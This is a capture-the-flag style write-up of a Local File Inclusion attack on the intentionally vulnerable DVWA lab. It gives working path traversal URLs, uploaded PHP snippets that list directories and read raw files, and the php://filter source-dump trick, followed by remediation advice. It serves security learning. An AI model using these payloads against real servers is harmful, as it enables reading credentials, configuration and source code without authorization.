





# Local File Inclusion in DVWA — Path Traversal & Vulnerability Chaining


A walkthrough of a Local File Inclusion (LFI) vulnerability in DVWA's **File Inclusion** module. The `page` parameter is passed directly to PHP's `include()` with no sanitization, so `../` sequences let you traverse the file system and pull in any file the web user can read. Finding the flag turned into a neat **vulnerability-chaining** exercise: LFI alone rendered the flag blank (it lived in a PHP comment), so I reused the foothold from the File Upload module to read the file's raw contents.

> ⚠️ **Disclaimer** — Performed against an authorized lab instance of the intentionally vulnerable [Damn Vulnerable Web Application (DVWA)](https://github.com/digininja/DVWA). Never run these techniques against systems you don't own or have explicit permission to assess.



---

## Table of Contents
- [TL;DR](#tldr)
- [Environment](#environment)
- [Step 1 — Recon: read the source](#step-1--recon-read-the-source)
- [Step 2 — Confirm the LFI](#step-2--confirm-the-lfi)
- [Step 3 — Find the random flag filename](#step-3--find-the-random-flag-filename)
- [Step 4 — Include it (and hit a wall)](#step-4--include-it-and-hit-a-wall)
- [Step 5 — Read the flag (chaining)](#step-5--read-the-flag-chaining)
- [Why it works](#why-it-works)
- [Impact](#impact)
- [Remediation](#remediation)
- [Key takeaways](#key-takeaways)
- [References](#references)

---

## TL;DR

`?page=` goes straight into `include()`. Traversal works:

```
?page=../../../../../etc/debian_version      ->  jessie/sid
```

The flag is a random-named PHP file in `hackable/flags/`. Its name came from a directory listing (via the upload foothold), and because the flag sits in a comment, reading the raw file — not `include`-ing it — is what revealed it:

```
Your flag: 4a9c4cef…2bffb5   (redacted here to avoid spoiling the lab)
```

---

## Environment

| | |
|---|---|
| **Target** | Damn Vulnerable Web Application (DVWA) v1.9 |
| **Module** | File Inclusion |
| **Security level** | `low` |
| **Parameter** | `page` (GET) → `include()` |
| **Flag location** | `/var/www/dvwa/hackable/flags/<random>.php` |
| **Approach** | Grey-box — source available via *View Source* |

Payloads used are in [`payloads/`](payloads).

---

## Step 1 — Recon: read the source

**View Source** shows the entire handler — three lines, no defense:



```php
<?php
// The page we wish to display
$file = $_GET[ 'page' ];
?>
```

`$_GET['page']` is used unchecked in the `include`. No path stripping, no allow-list, no forced extension — a textbook Local File Inclusion.

## Step 2 — Confirm the LFI

Traverse out of `vulnerabilities/fi/` up to the filesystem root and read a known file:

```
http://<IP>:<PORT>/vulnerabilities/fi/?page=../../../../../etc/debian_version
```

The page prints `jessie/sid` in the top-left — confirming traversal and that the box is Debian 8.



## Step 3 — Find the random flag filename

The flag file has a random name, and LFI can't *list* a directory (including a folder just renders blank here, and `php://filter` was disabled on this build). But I already had **code execution** in `hackable/uploads/` from the File Upload module — so I reused it. Uploaded `ls.php`:

```php
<?php print_r(scandir("../flags")); ?>
```

Browsing to it lists `hackable/flags/`:



```
Array ( [0] => . [1] => .. [2] => 32363.php )
```

Flag file: **`32363.php`**.

## Step 4 — Include it (and hit a wall)

The "intended" move is to include the flag file so its PHP runs and prints the flag:

```
http://<IP>:<PORT>/vulnerabilities/fi/?page=../../../../../var/www/dvwa/hackable/flags/32363.php
```

…but the body came back **empty**. `php://filter/convert.base64-encode` also returned nothing (stream wrappers disabled). The reason: on this randomized build the flag is stored in a **PHP comment**, so `include()` executes the file and prints nothing. Execution was never going to reveal it — I needed the file's raw bytes.

## Step 5 — Read the flag (chaining)

Back to the upload foothold: instead of executing the flag file, **read** it. Uploaded `read.php`:

```php
<?php echo file_get_contents("../flags/32363.php"); ?>
```

Browsing to it dumps the raw source, flag and all:

```php
<?php
// Your flag: 4a9c4cef…2bffb5     (redacted)
?>
```

That commented value is the answer to submit. (A pure-LFI path would be `php://filter/convert.base64-encode/resource=…` to base64-dump the source — the canonical trick for comment-hidden flags — but it was disabled here, which is exactly why chaining with the upload foothold was the reliable route.)

## Why it works

`include()` treats its argument as a path *and* as code. With user input flowing into it unchecked, an attacker chooses which file the server parses. `../` walks the tree, so "a page name" becomes "any file on disk." If remote wrappers were enabled (`allow_url_include`), the same sink would allow **remote** file inclusion and direct RCE.

## Impact

- Disclosure of source code, configuration, and credentials (`/etc/passwd`, DB configs, keys)
- Code execution when a flag/log/session file containing PHP is included, or via wrappers if enabled
- Combined with a file-write primitive (like the upload flaw here), reliable RCE — classic chaining

## Remediation

- **Never pass user input to `include`/`require`.** Map an allow-list of permitted pages to fixed paths server-side (e.g. a `switch`/whitelist array).
- **Canonicalize and confine** — resolve the real path and verify it stays within an intended base directory; reject `../`, null bytes, and absolute paths.
- **Disable dangerous wrappers** — `allow_url_include=Off`, `allow_url_fopen=Off`.
- **Least privilege** so traversal reads reach as little as possible.

## Key takeaways

- Vulnerabilities chain: the File **Upload** flaw handed me the filename *and* the read primitive that the File **Inclusion** flaw's blank output couldn't provide.
- A blank page after an include is a clue, not a failure — the content may be a comment or non-echoing code. Read the raw file.
- Absolute vs relative paths: match the traversal depth you've already proven (five/six `../` here) instead of guessing.
- `php://filter/convert.base64-encode` is the go-to for reading source via LFI — but only when wrappers are enabled.

## References

- OWASP — [Testing for Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)
- OWASP — [Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
- PHP — [`include`](https://www.php.net/manual/en/function.include.php) · [php:// wrappers](https://www.php.net/manual/en/wrappers.php.php)
- MITRE — [CWE-98](https://cwe.mitre.org/data/definitions/98.html) · [CWE-22](https://cwe.mitre.org/data/definitions/22.html)
- [DVWA on GitHub](https://github.com/digininja/DVWA)

---

<sub>A formal PDF version of this assessment is included as <code>DVWA_File_Inclusion_Report.pdf</code>. Part of my security learning portfolio.</sub>
